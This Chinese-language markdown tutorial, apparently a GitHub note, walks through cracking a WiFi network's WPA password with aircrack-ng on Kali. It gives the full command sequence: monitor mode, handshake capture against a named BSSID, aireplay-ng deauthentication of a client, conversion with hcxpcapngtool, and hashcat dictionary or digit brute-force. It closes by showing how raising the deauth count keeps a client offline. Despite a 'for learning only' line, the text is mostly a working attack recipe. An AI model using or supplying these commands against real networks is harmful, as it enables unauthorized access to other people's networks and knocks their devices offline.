



# 破解WIFI密码学习

## 前言

需要自备无线网卡

此文章仅用于学习使用

## 准备

一个Linux系统(VMware Kali最好)

无线网卡带监听发包的(最好支持5G HZ的，免驱或kali有的驱动的最好)

## 安装aircrack-ng

`sudo apt-get install aircrack-ng`

## 步骤

0.将网卡连接到VMware中
1. `ifconfig -a`看有没有wlan0（即无线网卡）
2. `airmon-ng start wlan0`启动监听服务

3. `ifconfig -a`看当前无线网卡名称是wlan0还是wlan0mon(有些网卡会在这时候变成wlan0mon，如果变了那么下面的wlan0就写wlan0mon)
4. `airodump-ng wlan0/wlan0mon` 扫描wifi，记录目标的BSSID和CH(信道)
    
5. `airodump-ng -w 保存握手包的文件名 -c 信道(CH) --bssid D6:93:51:05:7A:5C wlan0/wlan0mon`

    例如:`airodump-ng -w test -c 1 --bssid D6:93:51:05:7A:5C wlan0`

    记录下面两个数据，第一个是路由器地址(和上一步的一样)，第二个是客户端地址
    

    Tips:按Space暂停/继续,后方便复制

6. 新开一个终端，上面那个不要暂停

    `aireplay-ng -0 2 -a D6:93:51:05:7A:5C -c CC:5E:F8:01:5E:0F wlan0/wlan0mon`

    `-0`攻击次数，`-a`路由器地址，`-c`客户端地址(步骤5中记录的)

    可以多攻击几次，让目标设备重连网络，获取握手包
7. 看之前的终端，出现handshake则成功
    
8. 转换成`hccapx`格式

    `hcxpcapngtool -o 输出文件名.hccapx 握手包名.cap`

    例如:`hcxpcapngtool -o output.hccapx test-01.cap`
9. hashcat 爆破

    `hashcat -m 22000 output.hccapx 字典文件`

    如果确定纯数字几位的话可以

    `hashcat -m 22000 output.hccapx -a 3 ?d?d?d?d?d?d?d?d`

    几个`?d`就是几位数字

## 注意到

第6步用于`让目标设备重连网络`，也就是攻击设备使设备断网

因此也就可以`aireplay-ng -0 1000 -a D6:93:51:05:7A:5C -c CC:5E:F8:01:5E:0F wlan0/wlan0mon`将攻击次数放大，做到无法让客户端连网的效果

